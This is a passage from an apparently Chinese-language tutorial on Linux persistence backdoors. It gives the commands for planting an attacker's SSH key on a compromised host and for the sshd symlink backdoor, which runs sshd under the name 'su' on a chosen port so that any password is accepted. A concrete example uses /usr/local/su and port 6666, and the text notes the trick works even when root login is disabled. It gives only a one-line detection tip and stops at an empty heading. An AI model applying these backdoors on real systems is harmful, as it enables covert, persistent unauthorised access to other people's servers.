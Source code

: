 **被控端：**
	mkdir ~/.ssh    # 创建.ssh文件夹

**攻击端：**
	ssh-copy-id -p 端口 root@被控端ip     # 将攻击端的公钥发送给被控端
![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF0jo7Azu2WPK3nmaWmDFicFKZibgo1ySmkibuQEnr58USTzFPfGQUBfugFw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

攻击端ssh无密码登录
![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF03zqUOUE4Via0aYxvXH8yXSJBbkebb49GrqGtQicLDNHXia9oc3r4TjblQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

### 检测防御
	删除～/.ssh/authorized\_keys即可。

## ssh软链接

### 效果
	对sshd建立软链接，可使用任意密码登录。
### 命令

**被控端：**
```
ln -sf /usr/sbin/sshd /路径名/su;/路径名/su -oport=端口号
```

命令解释：
	ln参数 源文件 目标文件
	\-s：创建软链接；
	\-f：链接时先将与目标文件同名的文件删除；

**攻击端****：**
	ssh 用户名@目标主机IP -p 端口号
### 原理
	sshd服务启用PAM认证机制（在/etc/ssh/sshd_config文件中，设置UsePAM为yes），如果不启用PAM，系统会严格验证用户密码，就无法使用sshd软链接后门。
### 实例

**被控端：**
```
ln –sf /usr/sbin/sshd /usr/local/su;/usr/local/su –pport=6666
```

**攻击端：**
	ssh root@目标主机ip -p 6666  
	之后随便输入密码即可连接
![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF08vjm3r4vmLl9knh9ocic1Gcialq2mRyEFqUO4KVk5aqFKZfNMxjZNia0g/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

	若root用户被禁止远程登录，可直接使用其他普通用户登录，密码任写。
![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF0ibeY6ht4kic2pMymSeaaxZSsa91ia0ePYJ0kTcCbFOVlNTfXPVk61bYHw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

### 优点
	root被禁止登录，可以用其他用户登录。
### 缺点
	隐蔽性很弱，一般的rookit hunter这类的防护脚本可扫描到。
### 探究
